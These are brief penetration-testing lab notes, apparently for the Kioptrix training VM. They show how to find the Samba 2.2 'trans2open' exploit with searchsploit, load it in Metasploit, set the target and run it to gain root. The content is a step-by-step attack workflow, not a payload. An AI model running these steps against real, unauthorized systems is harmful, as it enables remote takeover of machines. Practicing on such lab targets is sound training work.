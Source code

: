 - searching for correct exploit via searchsploit
```bash
searchsploit smba 2.2
```
- found 'trans2open'
```bash
msfconsole
```
```bash
search trans2open
```
- presented with 4 exploit for different OS
```bash
use 1
```
```bash
options
set RHOST
show targets
```
```bash
exploit
```
- runs the exploit
-> Gained ROOT ACCESS TO KIOPTRIX